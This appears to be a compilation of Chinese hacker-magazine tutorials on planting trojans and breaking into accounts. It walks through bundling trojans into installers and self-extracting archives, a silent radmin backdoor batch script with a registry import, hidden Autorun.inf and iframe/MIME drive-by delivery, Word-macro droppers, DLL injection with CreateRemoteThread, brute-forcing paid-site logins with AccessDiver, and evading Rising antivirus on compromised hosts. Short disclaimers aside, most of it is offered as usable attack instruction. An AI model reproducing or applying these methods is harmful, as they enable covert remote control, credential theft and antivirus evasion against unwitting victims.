当时删完 QQ 快捷方式，我在该文件夹还发现了一个程序，图标像文本文件（如图2，左边是病毒文件，右边是正常文本文件）。想删却删除不了（提示正在运行）。查毒也没报有病毒。心里觉得可疑，就上报给瑞星。这时发现我的杀毒没升级，赶紧便升级。升级完成后对磁盘扫描了一下，发现中病毒了。病毒名：Trojan.PSW.Zypsw.hook。而且连 System Volume Information 文件夹也有了……天啊，看来我中毒有些历史了。（这是新病毒，大家要小心了哦，检查一下自己的 HTML 文件夹~）

杀完毒，我又想起那个可疑的程序，就又回到那个文件夹，查了一下毒，没发现病毒（如图3）。运行了一下，瑞星立刻报警了（图4）。我再用 PEID 脱壳，却出现图5的情况（后来查出是个捆绑文件）。从各个迹象来看，这个病毒的原型是将 dll 绑在程序里，放于 `C:\Windows\html` 中，在每次开机自启动，以此来维护 Windows 下的某个 dll 主文件病毒（让我想起了冰河的原理……）。

# 傻瓜黑客


图 3


图 4


图 5

## 三、出剑

要想反击，当然是制作木马了。这里只介绍如何将木马隐藏地植入对方电脑，实现自启动。可能大家接触过一些做法，但不少并不实用，例如简单图片捆绑等方式容易被识破。更实用的是把木马与常见程序（如游戏）组合，在对方解压或运行时实现分离与伪装，提高隐蔽性。

以前提到利用 RAR 的“解包前（后）运行”功能，这个思路不错，但并未真正实现木马与原文件有效分离，隐蔽性仍然不足。因此需要借助安装程序制作工具来完成更自然的投递与执行流程。

这次介绍一款安装程序制作软件：Installer2Go（可视为 Wise for Windows Installer 的简化版本），核心功能基本保留，足以完成本文需求。

OK! Let's go!（本文使用 Installer2Go 进行演示。）Installer2Go 的界面如图 6。General Info 为程序说明，可略；Setup Settings 用于安装根目录、默认文件夹名、开始菜单目录、是否创建桌面图标等；Requirements 与 Files 为关键设置项。


图 6

在 Files 标签中，左侧可选择常用文件夹（如 My Documents、Desktop 等），也可右键新建文件夹并插入文件（如 HTML 及其关联文件）。通过 Insert File(s) / Insert Folder 可完成投递文件结构配置。


图 7

最后在 Output 中填写导出路径，设置导出文件名及类型（EXE/MSI），点击 Build 生成安装程序。注意保存的是 Installer2Go 工程配置，与最终 setup 文件不同。


图 8

除了设置启动项目录（StartUp）外，也可用 Registry 的 RUN 项或 Services 设置自启，但前两者隐蔽性较差，服务方式成功率也受限。相对而言，通过 HTML 相关方式投递更稳定。

Shortcuts 可设置快捷方式位置，Dialogs/Screens 用于安装对话框样式，其余标签非重点。配置完成后即可导出并测试。

文中还提醒：即便投递成功，若对方具备较强安全意识或使用查杀工具，仍可能发现异常文件。实践中应先做好加壳、捆绑与行为伪装处理。

## 四、归鞘

结尾强调：技术应谨慎使用，不应伤害他人，尤其不要用于朋友或无辜对象。黑客技术作为工具，应服务于安全研究与防护能力提升。

（文中相关工具：Installer2Go）

## 利用 AccessDiver 破解收费网站会员

zhangyiqun [A·S·C]

## AccessDiver 是个什么东东？

AccessDiver（下文简称 AD）是一个网站安全检测软件……其基本功能是使用大量代理，对已有的用户名+密码组合逐个尝试，从中找到有效组合。破解密码验证非常耗时，常会遇到假密码或无效结果，因此需要耐心与技巧。

在 reactivation（used when no more proxy available）选项中，可设为空着不选或选择 don't reactivate proxies（=stop process）。随后导入代理列表（txt），勾选可用代理并设置起始代理。大量可用代理是必要条件，否则容易被封锁或导致效率很低。

## AccessDiver 的基本设置


点击 settings 主页卡，在 access 分页中按图 1 所示调整 analysis accuracy 与 stop a security test after 等选项，可按需求设置是否持续跑完整字典。

## 破解流程第一步——导入并准备代理（图2）

点击 proxy 主页卡，在 my list 分页勾选 use web proxies，并设置 rotate proxies logins before swapping（通常 1—3）。在 proxy skipping、proxy error handling 中勾选错误切换与跳过策略。


## 破解流程第二步——导入密码字典（图3）

点击 dictionary 主页卡，在 currently used 分页点击 load a combo file 导入密码字典（txt）。密码字典是破解成功关键，可自行收集整理或使用现成字典。


## 破解流程第三步——复制网站入口地址（图4）

进入目标网站，找到入口地址并粘贴到 AD 上方 server 区域地址框。注意应使用会弹出密码输入框的入口地址类型。


## 破解流程第四步——正式开始破解（图5）


准备完成后点击左上方 standard 按钮开始验证。若返回代理错误则更换起始代理重试。运行后会出现 progression 页面，可按需勾选 Don't hide this section after a test completion 等选项观察结果。这样，当测试结束后，这个 progression 页卡还会存在，供你分析使用。

在破解过程中可以随时调整地址框下面的 test speed 拖放条，增加线数 bots 可以加快验证速度，但是容易被对方识别而返回假密码或者大量 fakes。

redirected 信息。特别要注意那些显示为 goes to: http://... 的重定向信息！要学会分析 AD 的各种返回信息，这样才能针对不同的目标和结果，对 AD 的设置进行相应的修改。如此才能获得更好的破解效果。

### 验证结果（图7）

等验证完毕，找到的密码会显示在 history 页卡的 weak logins found 分页卡里，可以导出为 txt 文件保存，也可以点击右边的眼睛按钮直接启动浏览器进行连接。


图 7

在这里可以对保存的旧密码进行重新验证。选中需要验证的密码（可以是一个或者多个），点击左上方黑色内有数字的方框后面第一个黄色按钮，AD 会自动验证。如果密码前面的电脑小图标变成“×”，说明密码已经失效。注意！这种验证可能会使用获取密码时使用的代理，如代理失效，验证的结果也会是“×”，而密码未必失效，可以点击眼睛按钮启动浏览器尝试，以最终确定密码是否真的失效。

当然，我们也可以在这里提取文件中的密码，不过只能是那种“密码+网址”形式保存的文件。点击左下方那个打开按钮导入你的文件，选择全部，鼠标右键菜单 export → logins only to a file（Shift+F6 键），就可以将其中的密码提取出来。这里还有一项功能，如果跑出有效的密码，我们可以用这组密码对目标进行 exploit 扫描。

耐心等待，如果有结果，软件会有声音提示，并且测试出的可用密码会显示在下面的黄色框内。全部测试完成，结果会自动保存。在验证过程中随时可以点击左上方的 stop 大按钮终止。

注意到右边的那个 pause 按钮了吗？它的作用是暂停验证。可能会有这样的情况，在验证过程中点击 stop 按钮时，还有许多线程正在运行，强行终止容易导致内存模块错误，使已有的结果不能正常自动保存。如果经常发生这样的事情，那么就不要直接点击 stop 按钮，先点击 pause 按钮暂停，稍待片刻，等正在运行的线程结束后再点击 stop 按钮，然后回到 pause 按钮（这时应该变成 continue），点击它，就不会出现内存模块错误了。

在 pause 按钮上方还有两个反向箭头按钮。一般情况下 AD 会记录你的进程，下次验证时会接着上次的进度。如果 AD 没有保存上次的进度，而是从头开始，可以点击前进箭头，跳过上次已经完成的部分。

### 破解过程的观察（图6）

在图 6 的界面中，中间和左下的黑色框内显示的是返回的各种信息。


图 6

点击 Redirs 分页卡，在中间黄色框内显示的是一些 fakes 和 redirected 信息。

好了，由于篇幅限制，文章就写到这里了。如前所说，破解是一个需要耐心和不懈努力的艰苦工作，希望读者朋友们看了这篇文章有所裨益！

（文字相关工具：AccessDiver 光盘中有收录。）

## 菜鸟黑站最新工具

Loki

## Webhunter 小记

现在 WEB 安全什么漏洞最火，什么黑站成功率最高？估计大家都会说：旁注撒！最近偶在论坛里就找到一个好的——Webhunter，它不但可以旁注，也可以入侵专门一种脚本系统。首先，打开 Webhunter 的界面，在“网址”处，输入我们的 whois、webhosting、info 等访问，输入我们的域名站点查询……


接下来可根据搜索结果查看后台、脚本系统信息并继续检测。文末注明：文字相关工具（Webhunter）光盘中有收录。

## 黑侃恶搞篇 for X-Scan v3.2

吴钦忠

最近发现 X-Scan 出 3.2 版本了，对于我等菜鸟来说，真是个好消息。乐滋滋地找了一个，果然比以前有了很大的改进呢。拿出来狂扫一番，心里并没怎么高兴；什么时候咱也有自己专用的黑软啊。我正好刚把 WINHEX 也找到了，这时，一个“邪恶”的想法从我脑子里蹦了出来……

以前用 eXeScope.exe 修改过软件，这一次，用 WINHEX 可不可以呢？好了，开始我们的恶搞！

先新建文本文件 1，里面写“X-Scan v3.2”（跟 X-Scan 标题要一致哦），用 WINHEX 打开此文档，里面用 16 进制显示“582D5363616E2076332E32”，好，记下来。接着新建文本文档 2，里面写“雪凌寒专用”，用 WINHEX 打开文档 2，显示“D1A9C1E8BAAED7A8D3C3”，记下。到这里，准备工作就做好了。最后用 WINHEX 打开 xscan_gui.exe，选替换 16 进制数值，在搜索里填“X-Scan v3.2”的 16 进制数就是“582D5363616E2076332E32”，在替换里写“雪凌寒专用”的 16 进制数，然后按确定，保存，这样就搞定喽！打开 X-Scan，怎么样，标题变成“雪凌寒专用”了吧！


图 2

要注意几点，你要替换的东西必须跟被替换的数据位数相等，如果你名字太短，可以在名字后面用 16 进制的 20 代替，因为 16 进制的 20 代表空格。你也许会用 WINHEX 的替换文本功能不就可以吗？其实我试过，成功率不如以上的方法。

X-Scan v3.2 好处多多，缺点就一个：它太大了！足足 9.8M。我们动手给 X-Scan v3.2 减减肥，先把 Update.exe 删除；如果你的 xscan 有命令行下的 xscan.exe，也建议删除，图形界面就可以了。再给 xscan_gui.exe 加壳，我比较喜欢 FSG 2.0。这样 X-Scan 又会变小些，而且不会影响正常使用。


图 1

故事做到这里，打开 X-Scan-v3.2\doc\readme_cn.txt，在“X-Scan”前面也写上“雪凌寒专用”；这样一启动 X-Scan，就……（我很卑鄙吗）呵呵，安全焦点的前辈们见了可别用砖头砸我哟，如图 1、图 2。

改造完 X-Scan 后，我又拉来许多黑客软件来实验，结果发现只要是没加壳的，几乎都可以用这种方法改搞标题。菜鸟兄弟们，赶快行动起来，打造自己的黑软吧！因为这毕竟不是咱们自己开发的，所以建议不用发到网上，自己爽一下就可以了。比如，找一个比你更菜的，跟他说“安全焦点给我开发了专用版！”，哈哈，够唬人吧？

等到我这里的黑客软件差不多都挂上了自己的名字，又开始找新目标，一查 WINHEX 没加壳，我冷笑着把 WINHEX 的主程序拉了出来……改造完之后会发现 WINHEX 找不到帮助文件，这个好办，把 winhex.hlp 改名为相应的名字，也就是改造后的 winhex 的名字.hlp 就好了。

有了这么多我们“自己”的东西，接着让我们把改造好的黑软收藏起来吧！我给大家介绍一款软件：vdisk2005.exe，可以从 www.vdisk.cn 下载，此程序提供一百兆的硬盘空间，支持直接拖动，而且全免费，用过的都说好！让我们的黑客软件在这里安个家吧 ^o^。

（实验相关工具：X-Scan v3.2、WINHEX、eXeScope 光盘中有收录。）

# 牧马记


# 牧马记

## 木马常见植入技术及剖析


zhuxi

伴随着 Windows 操作系统核心技术的日益成熟，木马植入技术也得到发展，使得潜入到系统的木马越来越隐蔽，导致恶意木马对网络安全的危害性也越来越大。所以，全面了解木马植入的方法和技术，有助于采取有力的应对措施，同时也有助于促进信息对抗技术的发展。本文就来剖析几种 Windows 下基于远程线程插入的木马植入技术。

### 一、回顾 Unix 环境下的木马植入

早期的木马程序功能相对简单，往往是将一段程序嵌入到系统文件中，用跳转指令来执行木马功能。这个时期的木马实际上就是秘密嵌入到某个合法程序中的一段代码，这段代码或者执行一些恶意行为，或者为未经授权访问某些特权系统功能提供一个“陷门（trap door）”。1984 年，UNIX 设计者 Ken Thompson 指出不需要对程序的源代码进行直接修改而在该程序中植入木马的可能性，并且这种植入的木马根本不可能被检测。以下代码简单展示了 Unix 环境下通过操纵编译器在其中植入木马的过程。

```
Compile(S)
{
  chars;
  ...
  if (match(s,'pattern')) {
    ...
    compile('bug code')
    return;
  }
  ...
  <other-statements...>
}
```

假设想要更改 Unix 的“login”命令，使其要么接受一般用户口令，要么接受木马主人设置的特定口令，从而就可以用这个口令以任何用户（甚至是超级用户）的身份登录系统。不用直接改变“login”命令的源代码，而是对 C 编译器进行修改，让它对要编译的每一行代码进行检查，看当前代码是否与“login”源代码的特定行匹配（这行将被取代）。当编译器发现这一特定代码行时，就插入并编译经过修改了的含有陷门的代码，而从“login”源代码本身是发现不了陷门痕迹的。

也许认为从被篡改的编译器代码中就会发现被植入的木马代码，事实并非如此。编译器本身就是一个被改文件，能包含它自己的木马而无需在源代码中留下任何记录，因此既不能在编译器源码中发现 login 陷门，也不能在“login”源码中发现它。

### 二、Windows 环境下常见的木马植入方法

在 Windows 环境下，木马是一种基于客户／服务器方法的远程控制程序。实现木马远程控制的程序一般包括三部分：控制端程序、木马程序以及木马配置程序。控制端程序运行于入侵者所在的主机中，是入侵者远程控制木马程序的平台；木马程序运行于远程受控主机中，根据入侵者的远程指令进行相应非授权的操作；木马配置程序则实施一些相关的辅助功能，如设置木马远程通讯的端口号、木马运行的触发条件以及帮助木马隐藏。

随着计算机网络的高速发展，Windows 平台的友好界面促进网络的日益普及，以及网络应用日益多样化，木马植入出现了多种方法，主要有以下几种：

- 1. **利用 E-MAIL**：控制端将木马程序以附件的形式夹在电子邮件中发送出去，收信人只要打开附件，系统就会感染木马。
- 2. **软件下载**：一般的木马执行文件非常小，大多是几 K 到几十 K，如果把木马捆绑到其它正常文件上，是很难被发现的。一些非正规的网站以提供软件下载为名义，将木马捆绑在软件安装程序上，下载后，只要一运行这些程序，木马就会自动安装。
- 3. **利用共享和 Autorun 文件**：学校或单位的局域网为了学习和工作方便，会将许多硬盘或文件夹共享出来，有时甚至不加密码。恶意程序往往会利用这类环境进行传播。

大家知道，将光盘插入光驱会自动运行，这是因为光盘根目录下有个 Autorun.inf 文件，这个文件可以决定是否自动运行程序。同样，如果硬盘的根目录下存在该文件，硬盘也就具有了 AutoRun 功能，即自动运行 Autorun.inf 文件中的内容。Autorun.inf 文件一般是如下格式（“//”后面是我加的注释，使用时去掉）：

```
[AutoRun]
// 这条 AutoRun 命令开始，必须输入
icon=E:\sex.ico
// 用 sex.ico 文件给 E 盘设置一个个性化的盘符图标
open=E:\sex.exe
// 指定要运行程序的路径和名称，在此为 E 盘下的 sex.exe，如果 sex.exe 文件是木马或恶意程序，那我们的电脑就危险了
```

将 sex.ico 和 sex.exe 文件以及 Autorun.inf 放在 E 盘根目录，然后进入“我的电脑”，你会发现 E 盘的磁盘图标变了，双击进入 E 盘，还会自动执行 E 盘下的 sex.exe 文件！

# 牧马记

对于给你下木马的人来说，一般不会改变硬盘的盘符图标，并且他会修改 Autorun.inf 文件的属性，将该文件隐藏起来。然后按 F5 键刷新。这样，当有人双击这个盘符，程序就运行了。这一招对于经常双击盘符进入“我的电脑”的人最有效。识别这种伪装植入方式的方法是：双击盘符后木马程序会运行，并且我们不能进入盘符。

### 4. 利用 WinRAR 制作成自释放文件

这是最新的伪装方法，把木马服务端程序和 WinRAR 捆绑在一起，将其制作成自释放文件，这样做了以后是非常难以检查的，即使是用最新的杀毒软件也无法发现！识别的方法是：对经过 WinRAR 捆绑的木马文件点击鼠标右键，查看“属性”，在弹出的“属性”对话框中，会发现多出两个标签“档案文件”和“注释”，点选“注释”标签，你就会发现木马文件了。

### 5. 利用网页代码结合漏洞

这种方法是利用系统的一些漏洞进行植入，如微软著名的 IIS 服务器溢出漏洞，通过一个 ISHACK 攻击程序即可把 IIS 服务瘫痪，并且可以在攻击服务器上执行远程木马文件。利用错误的 MIME 头漏洞，还可以做到浏览网页即可使浏览者中木马。这种浏览信件即中木马或病毒的道理是一样的（Nimda、本拉登等病毒也利用了该漏洞）。你可以去 www.heibai.net 下载 MIME 漏洞网页生成器，文件大小 15.3K。该软件可以直接生成 eml，配置的好处就是能骗过使用 Windows 2000 系统的人。

平时的网页都是 HTM 格式，我们也可以用 HTM 去调用 eml：

```html
<iframe src="xxx.eml" width="0" height="0"
 frameborder="no" border="0" marginwidth="0"
 marginheight="0" scrolling="no">
</iframe>
```

把这段代码放在 body 标签之内（最好放在代码结尾处附近），然后把 eml 改成相应名字放在一个目录上。当对方浏览网页时，木马已经偷偷进入他的电脑了。这个方法原理和上面一样，效果也差不多。按照个人经验，最好用 heibai 的程序制作 eml，别的方法做出来的 eml 可能会被查出病毒。对于 MIME 头的植入方式，选用木马一定要小，最好不要超过 10K。这里推荐 winshell5.0，它是一个 Telnet 式木马，体积小且适合做 MIME 载荷。

### 6. 把木马文件转换为图片格式

这是一种相对比较新颖的方式，把 EXE 转化成为 BMP 图片来欺骗大家。原理：BMP 文件的文件头有 54 个字节，包括长宽、位数、文件大小、数据区长度。我们只要在 EXE 的文件头上加上这 54 字节，IE 就会把它当成 BMP 文件下载下来。改过的图片是花的，会被人看出破绽，用 `` 把标签加到网页里，就看不见图片了，也就无法发现“图片”不对劲。

IE 把图片下载到临时目录，我们需要一个 JavaScript 文件和对方硬盘上的一个 VBS 文件，并在注册表添加启动项，利用 VBS 找到 BMP，调用 debug 还原 EXE，最后运行程序完成木马植入。下一次启动时木马就运行了，无声无息非常隐蔽。

### 7. 在 Word 文档中加入木马文件

这是最近流行起来的一种方法，比较奇特。这种方法很隐蔽，在 Word 文档末尾加入木马文件，只要别人点击这个所谓的 Word 文件就会中木马。这种方法主要是通过把一个 EXE 格式木马文件接在 DOC 文件末尾，让别人察觉不到木马存在，因此使之上当受骗。

Word 的宏使用 VBA 编写，这种植入方法就是利用 VBA 写一段代码。新建 DOC，打开 Visual Basic 编辑器，新建模块，写入 VB 函数声明；回到 ThisDocument 代码视图，选择 Document Open 事件并写入代码。接着把 DOC 和 EXE 合并：`copy /b anyname.doc+anyname.exe anyname.doc`。打开该 DOC 后，隐藏在其中的木马会自动运行。

该方法还涉及注册表项 `HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security` 的 Level 值设置。Level 为 3 时 Word 不运行宏；为 2 时会询问；为 1 时会自动运行宏。文中还说明可用宏把附加在 DOC 后面的 EXE 读出并保存到 `C:\AUTOEXEC.EXE` 后执行。

如果要让受害者机器接受 DOC 并顺利运行，关键是想办法让其 Word 安全级别降低。网页链接到 DOC 时，IE 也可能自动下载。对于这种欺骗方式，最重要的是小心防范，陌生人的附件千万不要收看。

### 8. 通过 Script、ActiveX 及 Asp、Cgi 交互脚本的方式植入

由于微软的浏览器在执行 Script 脚本上存在一些漏洞，攻击者可以利用这些漏洞传播病毒和木马，甚至直接对浏览者电脑进行文件操作等控制。如果攻击者有办法把木马执行文件上传到攻击主机的一个可执行 WWW 目录夹里面，他可以通过编制 Cgi 程序在攻击主机上执行木马。

### 9. 用 Z-file 伪装加密木马程序

作为较为加密软件是台湾华顺科技的产品，其经过将文件压缩加密之后，再以 bmp 图像文件格式显示出来（扩展名是 bmp，执行后是一幅普通的图像）。当初设计这个软件的本意只是用来加密数据，就算计算机被入侵或被非法使用时，也不容易泄漏你的机密数据所在。不过如果到了黑客手中，却可以变成一个入侵他人的帮凶。使用者会将木马程序和小游戏合并，再用 Z-file 加密及将此“混合体”发给受害者，由于看上去是图像文件，受害者往往都不以为然，打开后又只是一般的图片，最可怕的地方还在于就连杀毒软件也检测不出它内嵌特洛伊木马，甚至病毒！当打消了受害者警惕性后，再让他用 WinZip 解压缩及执行“伪装体”，这样就可以成功地安装木马程序。如果入侵者有机会能使用受害者的电脑（比如上门维修电脑），只要事先已经发出了“混合体”，则可以直接用 WinZip 对其进行解压及安装。由于上门维修是带着手使用电脑，受害者根本不会怀疑有什么植入他的计算机里，而且时间并不长，30 秒时间已经足够。就算是“明晃晃”地在受害者面前操作，他也不见得会看出这一双黑手正在干什么。特别值得一提的是，由于“混合体”可以躲过反病毒程序的检测，如果其中内含的是一触即发的病毒，那么一经解压缩，后果将不堪设想。

### 10. 伪装成应用程序扩展组件

此类属于最难识别的特洛伊木马，也是骗术最高的木马。特洛伊木马编写者用自己编制的特洛伊 DLL 替换已知的系统 DLL，并对所有的函数调用进行过滤；对于正常的调用，使用函数转发器直接转发给被替换的系统 DLL；对于一些事先约定好的特殊情况，DLL 会执行一些相对应的操作。一个比较简单的方法是新建一个进程，虽然所有的操作都在 DLL 中完成会更隐蔽，但是这大大增加了程序编写的难度，实际上这样的木马大多数只是使用 DLL 进行监听，一旦发现控制端的连接请求就激活自身，建立一个绑定口的进程进行正常的木马操作。操作结束后关闭进程，继续进入休眠状况。

举个具体的例子，黑客们将写好的文件（例如 DLL、OCX 等）挂在一个十分出名的软件中，例如 QQ 中。由于 QQ 本身已有一定的知名度，没有人会怀疑它的安全性，更不会有人检查它的文件是否多了。而当受害者打开 QQ 时，这个有问题的文件即会同时执行。此种方式相比起用合并程序有一个更大的好处，那就是不用更改被入侵者的登录文件，以后每当其打开 OICQ 时木马程序就会同步运行，相较一般特洛伊木马可说是“踏雪无痕”。目前，有些木马就是采用的这种内核插入式的植入方式，利用远程插入线程技术，嵌入 DLL 线程，或者挂接 PSAPI，实现木马程序的隐藏，甚至在 Windows NT/2000 下，都达到更好的隐藏效果。这样的木马对一般电脑用户来说简直是一个恶梦。防范它的方法就是小心小心再小心！

### 11. 把木马和其它文件捆绑在一起

这是最为常见的手段，将木马捆绑到一个安装程序上，当安装程序运行时，木马在用户毫无察觉的情况下，偷偷地进入了系统。被捆绑的文件一般是可执行文件。例如，把木马服务端和某个游戏捆绑成一个文件在 QQ 或邮件发给别人，运行后他会看到游戏程序正常打开，却不知木马程序已经悄悄在后台运行了，这样做对一般人的迷惑性很大，而且即使他以后重装系统了，如果他的系统中还保存了那个“游戏”的话，就有可能再次中招。

用来执行捆绑任务的工具软件非常多，如 exe 文件捆绑机、ExeBind 等，这类程序的原理：该类程序可以将指定的黑客程序捆绑到任何一个广为传播的热门软件上，使宿主程序执行时，寄生程序（黑客程序）也在后台被执行。当您再次上网时，您已经在不知不觉中被控制住了。您说这个文件捆绑专家恐怖不？而且它支持多重捆绑。实际上是通过多次分割文件、多次从父进程中调用子进程来实现的。

利用上述方法投放的木马程序最终都是以独立的进程运行于目标主机中，这些木马进程利用进程查看工具很容易被识别。这些方法有的将木马程序注册为一个系统服务进程，这样也只能避免在任务列表中出现。

## 三、基于 DLL 和远程线程插入的木马植入技术

在 Windows 环境下，一种更为隐蔽的木马投放方案是结合 DLL（动态链接库）和远程线程插入技术来实现木马植入。这种技术是以 DLL 的形式实现木马程序，然后在目标主机中选择特定目标进程（如系统文件或某个正常运行程序），由该进程将木马 DLL 插入到本系统中。

DLL 文件的特点决定了这种实现形式的木马的可行性和隐藏性。首先，由于 DLL 文件映像可以被映射到调用进程的地址空间中，所以它能够共享宿主进程（调用 DLL 的进程）的资源，进而根据宿主进程在目标主机中的级别未经授权地访问相应的系统资源。其次，因为 DLL 没有被分配独立的进程地址空间，也就是说 DLL 的运行并不需要创建单独的进程，所以从系统的进程列表里看不见 DLL 的运行痕迹，从而可以避免在目标主机中留下木马进程痕迹，因此满足了隐蔽性的要求。

将木马程序以 DLL 的形式实现后，需要使用插入到目标进程中的远程线程将该木马 DLL 插入到目标进程的地址空间，即利用该线程通过调用 LoadLibrary 函数来加载木马 DLL，从而实现木马植入。由此可见，创建远程线程和远程线程插入是此种木马植入技术的两个关键环节。

### 1. 创建远程线程

由于除了自己进程中的线程外，我们无法随意地控制其他进程中的线程，因此需要在目标进程中创建一个新线程。对于自己创建的线程，我们能够控制它执行什么代码，但在另一个进程中创建我们控制的远程线程，则需要调用 CreateRemoteThread API（应用程序接口）函数：

```c
HANDLE CreateRemoteThread(
  HANDLE hProcess,
  LPSECURITY_ATTRIBUTES psa,
  DWORD dwStackSize,
  LPTHREAD_START_ROUTINE pfnStartAddr,
  PVOID pvParam,
  DWORD fdwCreate,
  PDWORD pdwThreadId
);
```

参数 hProcess 为指向拥有新创建线程的进程（即目标进程）的句柄。参数 pfnStartAddr 指明远程线程进入点函数的内存地址，由于要将该线程插入目标进程地址空间中，所以该地址应该是与目标进程地址空间相关的，而不能位于本地进程的地址空间。参数 pvParam 为传递远程线程进入点函数的调用参数。

在实际调用 CreateRemoteThread 时需要预先对远程线程进入点函数（这里指 LoadLibrary 函数）地址和木马 DLL 路径名进行处理。进行相应处理之后，就可以正式调用 CreateRemoteThread 函数创建远程线程，从而加载木马 DLL。

### 2. 加载木马 DLL

现在考虑如何由远程线程调用 LoadLibrary 函数加载我们的木马 DLL。比较 LoadLibrary 函数与远程线程进入点函数的原型，二者原型非常相似，都接受单个参数，都返回一个值，且都使用相同的调用规则。

```c
HINSTANCE WINAPI LoadLibrary(
  LPCSTR lpLibFileName
);
DWORD WINAPI ThreadFunc(
  PVOID pvParam
);
```

因此，如果将远程线程函数的地址指定为 LoadLibrary 函数，且将 LoadLibrary 的参数（即木马 DLL 路径名的地址）作为远程线程进入点函数的参数传递，则当创建远程线程时，该线程将立即调用 LoadLibrary 函数。利用远程线程插入 DLL 实现木马植入的关键环节是打开目标进程（用 OpenProcess 实现）并申请相应访问权。

在允许打开目标进程句柄的安全环境下，如果有权并且激活调试安全优先级，则就能打开这些进程的句柄。所以获得相应访问权限是关键点，也是难点。这种木马隐藏方式非常难以发现……（文字中涉及程序：WinRAR、Z-file 伪装加密软件、MIME 漏洞网页生成器等）。

## 雪蓉

大家好，雪蓉在这先给各位黑友们问个好……今天雪蓉给大家讲讲自己怎么样做一个简易型木马……先在废话少说，开始正题，今天教大家做一个 radmin 的自解压木马……

radmin 是一个远程控制软件，我们可以用它来远程教学，当然也可以拿来入侵……首先我们要安装 radmin，安装好以后我们来配置一下。

### 第1步

先点 radmin 设置（图1）里的设置口令，会出现 1 个对话框（图2），在里面输入一个 8 位密码，这个密码就是你以后要连接对方时输入的密码……

对话框里，radmin 的默认端口是 4899，大家最好改成一个不容易被猜到的端口（如 1984）……隐藏托盘图标等设置也要注意（图3），然后继续下一步。

### 第2步

导出我们注册表里刚刚配置的 radmin 的信息（HKEY_LOCAL_MACHINE 下 SYSTEM 项中的 radmin）另存为注册表文件，例如 xb.reg。再新建一个文本文件输入：

```bat
regedit /S xb.reg
r_server.exe
r_server.exe /silence /install
```

可以找到 3 个：AcmDll.dll、raddrv.dll、r_server.exe，加上我们做的 xb.reg 和 xb.bat 就是 5 个啦，齐了，先压缩成普通的压缩文件，然后雪蓉就带领大家开始我们的自解压制作探秘（自解压不只是“在这制作木马，在别的黑客入侵方面也很有用啊”）。开始第 3 步……

### 第3步

双击打开我们刚才做的压缩文件，点击“自解压选项”，出现一个对话框，然后大家点击那个高级的解压选项，出现对话框，在那个自解压选项里有个解压路径，大家输入“%systemroot%”，解压后运行填我们刚才自己做的批处理文件的名字，我这填 xb.bat（图5）。然后选择模式选中“全部隐藏和跳过已存在文件”……

一定要注意空格，xb.reg 就是我刚才导出的注册表文件，regedit /s xb.reg 的意思就是把 xb.reg 导入对方的注册表，“/silence”是以安静模式运行的意思，“/install”是每次电脑运行时 r_server.exe 这个 radmin 的服务端都会自动运行。保存时保存类型大家选择所有文件，保存为批处理文件也就是 bat 文件，我命名为 xb.bat……

radmin 的好处就是容易操作，速度很快，大家赶快行动吧，还等什么，不过不要搞破坏。嘿嘿，就说到这啦，雪蓉祝各位网民的人们，大家有空来我们家坐坐吧。

## 让木马躲过瑞星2005的“追杀”

chenggong

本人是一个小菜鸟，不过 x 档案看了不少，也想找几个肉鸡玩一玩。某一天的深夜，上网后拿出了 20cn 网络安全小组的全自动 IPC 扫描器 scanipc（泪拽版，但是只能扫描 A 段的 IP），一会扫描出几个空口令，没想到还炸到了一肉鸡。接下来建立 IPC 连接，映射磁盘，用 copy 命令将黑洞的服务端拷贝到肉鸡的 C 盘，用 psexec.exe 直接运行黑洞的服务端，种植了六个木马，其中的四个很快上线（真是太激动了，感谢陈绍璐先生造出了这样好的木马）。

首先想到了将瑞星结束进程，以最快的速度运行黑洞，或用 3389 登录，但这样做容易被管理员发现，并且在某些场合肯定不行。要想躲过瑞星的监控，必须在瑞星运行前运行木马，从 Windows 启动机制上讲，先启动 Windows 主程序然后加载各项服务、启动项等。对！将服务或 Windows 主程序捆绑，经过试验行不通，Windows 自身保护功能很强，替换后就出错。直接加载在启动项里，这样太明显我不想那样做。最后终于想到了替换服务，直接替换不能成功，不信大家可以试试。最后想到了用 remote task manager，这个软件功能很强，可以修改定制本地和远程计算机的服务，安装运行（详细的安装使用看 X 档案 2004 第 4 期），选一个运行并且启动的用处不大的服务，我选的是 Logical Disk Manager（如图2），等重启后你的黑洞就可以运行了。

可是其余两个怎么也上不了线，让病毒防火墙杀死了？不可能，我用的是最新的黑洞专业版，并且自己重新加的壳。到肉鸡磁盘上仔细看看是不是有什么高级的病毒防火墙，进入到肉鸡 Program Files 目录一看是瑞星，将他的瑞星复制过来一看版本是瑞星 2005。安装软件如果向注册表某些地方写入键值，给你 15 秒的时间让你选择，如不选择 15 秒后自动取消安装。瑞星太厉害！怎么办？

有一些项（如图3）。

注册表路径默认为 run，你改为 other 瑞星就监控不到了，因为选 run 时写到注册表 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\explorer\Run]`。选 other 时写到 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]`。可见瑞星监控毕竟能力有限！实际上灰鸽子专业版写入注册表的地方瑞星也监控不到。

（本文所涉及的软件：IPC 扫描器 scanipc、psexec.exe，本期光盘已收录。）

最后我又研究了一下瑞星的注册表监控功能，实际上瑞星监控功能并不是很强，只是监控了很少一部分，黑洞生成服务端时……

## 李代桃僵

## 启动木马的秘密

石勒

我们先来看看图1，怪吗？怎么会有两个同名的文件出现在同一个文件夹里（请注意，这里并没有把“我的电脑”里的“隐藏已知类型文件的扩展名”选项勾选上）？实际上这是我弄的一个小花招，下面请跟我做。

先把 snagit.exe 拷到一个空文件夹里，然后改名为“snagit.exe ”。注意，在扩展名 exe 后面还有一个字符（所谓的 RUBOUT），是用 ALT+127（小键盘）输入的。

再向此文件夹里拷入另一份 snagit.exe。此时，“我的电脑”里显示如图2。在注册表里找到 `HKEY_CLASSES_ROOT\.exe` 并导出为文件 1.reg，然后将 1.reg 里的“\.exe”全部改为“\ .exe ”（含 RUBOUT），再把 1.reg 导入注册表。此时“我的电脑”里的显示并未刷新，按 F5 也无济于事。不过，我们也用不着重启。如图3所示，打开“文件夹选项”，任选一个文件类型（让下面的“更改”键可用就好了），点击“更改”，然后点击“取消”，就刷新为图1的样子了。

## 二、原理

